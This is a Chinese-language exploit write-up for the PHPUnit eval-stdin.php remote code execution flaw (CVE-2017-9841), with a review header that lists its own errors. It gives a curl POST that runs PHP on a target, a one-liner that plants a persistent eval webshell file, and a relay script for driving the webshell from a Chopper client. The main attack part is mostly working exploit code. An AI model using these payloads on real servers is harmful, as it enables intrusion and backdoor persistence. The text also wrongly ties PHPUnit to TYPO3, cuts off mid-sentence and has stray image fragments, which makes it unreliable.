




## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：4.8.19–4.8.27与5.0.10–5.6.2串接；需eval-stdin.php可经Web访问执行

代码与实验材料：curl php代码与中转脚本，$webshell空；正文路径少一个phpunit层，资源残串严重

来源证据范围：无官方公告或原研究

- **事实待核（1）**：产品归属和入口描述错误；依据：PHPUnit不是TYPO3专属其中测试框架；curl/vendor/phpunit/phpunit/src与描述/vendor/phpunit/src不同。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：正文代码损坏且代理未配置；依据：简介停在以'、后门载荷转义污染、$webshell为空；图片路径混入段落。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（3）**：未说明暴露前提和清理；依据：生产部署dev依赖且路径可访问是关键，写1.php会持久化。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2017-9841）PHPunit 远程代码执行漏洞
=========================================

一、漏洞简介
------------

TYPO3是瑞士TYPO3协会维护的一套免费开源的内容管理系统。PHPUnit是其中的一个基于PHP的测试框架。PHPUnit4.8.28之前的版本和5.6.3之前的5.x版本中的Util/PHP/eval-stdin.php文件存在安全漏洞。远程攻击者可通过发送以'

二、漏洞影响
------------

PHPUnit 4.8.19-4.8.27PHPUnit 5.0.10-5.6.2

三、复现过程
------------

    $ curl --data "<?php echo(pi());" http://www.0-sec.org:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

总体来说就是向**vendor/phpunit/src/Util/PHP/eval-stdin.php**发送POST请求执行php代码。PHPunit远程代码执行漏洞/media/rId24.png)PHPunit远程代码执行漏洞/media/rId25.png)也可以直接写入一句话\*\*\<?=file\_put\_contents(\"1.php\",
\'\<?=eval(\$\_REQUEST\[1\]);?\>\');\*\*PHPunit远程代码执行漏洞/media/rId26.png)PHPunit远程代码执行漏洞/media/rId27.png)

### poc

> 因为直接是RCE，如果当前目录可写，直接POST这样的body:

**菜刀中转脚本**

> 使用20160622版本的菜刀，可以直接连目标，可以执行命令，但是不可以上传修改文件。

    <?php
    $webshell="";
    $data = file_get_contents("php://input");
    $data=substr($data,1);
    $data=str_replace("%2F",'/',$data);
    $data=str_replace("%2B",'+',$data);
    $data=str_replace("%3D",'=',$data);
    $data= "<?php ". $data;
    echo $data;

    $opts = array (
    'http' => array (
    'method' => 'POST',
    'header'=> "Content-type: application/x-www-form-urlencoded\r\n" .
    "Content-Length: " . strlen($data) . "\r\n",
    'content' => $data)
    );

    $context = stream_context_create($opts);
    $html = @file_get_contents($webshell, false, $context);
    echo $html;
    ?>
